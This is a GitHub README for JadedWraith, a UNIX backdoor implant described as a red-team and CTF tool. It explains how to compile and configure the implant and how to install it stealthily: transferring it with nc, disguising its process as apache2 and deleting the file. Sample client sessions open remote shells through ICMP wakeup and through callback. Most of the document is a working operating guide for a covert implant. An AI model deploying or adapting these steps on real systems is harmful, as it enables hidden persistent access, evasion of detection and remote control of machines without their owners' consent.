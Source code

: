 # JadedWraith

Lightweight UNIX backdoor for ethical hacking. Useful for red team engagements and CTFs. Something I wrote a few years ago as part of a game I was playing with a friend to try to backdoor as many VMs in each other's labs without being caught or having our tools reverse engineered/signatured.

## Features

JadedWraith is a powerful backdoor capable of either listening on a TCP port or sniffing packets for a "magic" ICMP packet instructing the backdoor to either callback or listen. This is partly inspired by tools such as [PRISM](https://github.com/andreafabrizi/prism), however, unlike PRISM JadedWraith incorporates shoddy cryptography to obfuscate command and control. JadedWraith can be used to execute remote commands or upload follow on payloads.

JadedWraith can be compiled as a standalone executable or as a shared object for process injection. 
 
## Components

The source code for the actual implant can be found inside the `src` directory. `client` contains a simple python based client for interacting with JadedWraith. The `conf_jawr` script is used to configure new JadedWraith executables.

## Dependencies
The implant requires a modern C library and libpthread. Depending on the target operating system, libpcap may be required (In which case, it you must run the `./configure` script with `--use-libpcap` to enable libpcap support).

The Python configuration script and client require the the following packages to work: termcolor, pycryptodomex

## How to compile
Simply use the `Makefile` to compile. Note: The resulting binaries found in `bin` must be configured before they can be used.
```
$ ./configure
$ make
$ ls -lart bin
-rwxrwxr-x. 1 root root 19712 Jul 31 13:08 JadedWraith-2.0.0-Linux-x86_64.elf
```

## How to configure

Use the `conf_jawr` script to configure JadedWraith executables. It will search the `bin` directory for JadedWraith executables to configure. The configured binary will be written to the `configured` directory.

```
$ ./conf_jawr
JadedWraith Configuration

Please choose a JadedWraith binary to use: 
    1. JadedWraith-2.0.0-Linux-x86_64.elf
Binary : 1
Shared Key [95454c93c8d5d30a0782da72ade10e29] : 
Enable passive mode (ICMP wakeup) ? [y/n] y
Wakeup Password [4Zw2TTtaIKBcyeoLwd7rrTasRlUF90vSZnLFzn2A4ab018Vj] : 
argv[0] (Leave blank to not spoof command) [] : 

JadedWraith Executable : /tmp/JadedWraith/configured/builds/JadedWraith-2.0.0-Linux-x86_64.1627752415.bin

Try me!
   sudo ./wraith-client.py <IP_ADDRESS> -k 95454c93c8d5d30a0782da72ade10e29 -P 4Zw2TTtaIKBcyeoLwd7rrTasRlUF90vSZnLFzn2A4ab018Vj shell
```

## How to install
A configured implant can simply be ran on the target system. If configured to use the passive ICMP functionality, it must be ran as root. The environmental variable _CMD can be used to spoof the process's `argv[]`

```
# cd /tmp
# nc -lvp 4444 > apache2
# chmod +x apache2
# _CMD="/usr/sbin/apache2" ./apache2
# rm apache2
```

## How to interact
The `wraith-client.py` script inside `client` can be used to interact with JadedWraith. Simply invoke it with the arguments produced by the `conf_jawr` script, substituting the target's IP for `<IP_ADDRESS>`. If utilizing the ICMP functionality, the script must be ran as root to send the ICMP packet.


```
$ ~/JadedWraithFork/client> sudo ./wraith-client.py 192.168.100.224 -k 1deeb4a64440b8d13c84a8eb4e7c4453 -P y00nrnwpwXdvPOXSS6K0r7LelFeCBvKx91Oj0s5BrnLyx1WR shell
[+] sent ICMP wake up command to 192.168.100.224
[*] backdoor will listen on port 58290
[*] connecting to 192.168.100.224:58290
[+] connection established!
[*] entering interactive shell
>> .cd /tmp 
>> w
 14:22:49 up  3:02,  1 user,  load average: 0.18, 0.19, 0.23
USER     TTY        LOGIN@   IDLE   JCPU   PCPU WHAT
>> ps -ef
UID          PID    PPID  C STIME TTY          TIME CMD
root           1       0  0 11:20 ?        00:00:01 /usr/lib/systemd/systemd --switched-root --system --deserialize 31
>> .exit
$ sudo ./wraith-client.py 127.0.0.1 --callback 192.168.100.224 -k 1deeb4a64440b8d13c84a8eb4e7c4453 -P y00nrnwpwXdvPOXSS6K0r7LelFeCBvKx91Oj0s5BrnLyx1WR shell
[+] sent ICMP wake up command to 127.0.0.1
[*] backdoor will connect to port 37943
[*] listening on port 37943
[+] accepted connection!
[*] entering interactive shell
>> 
```

## Bugs
I'm sure this has plenty of bugs. Let me know if you find any. I wrote this over a few days and the code isn't my proudest. Feel free to report any issues and I'll try to fix them. 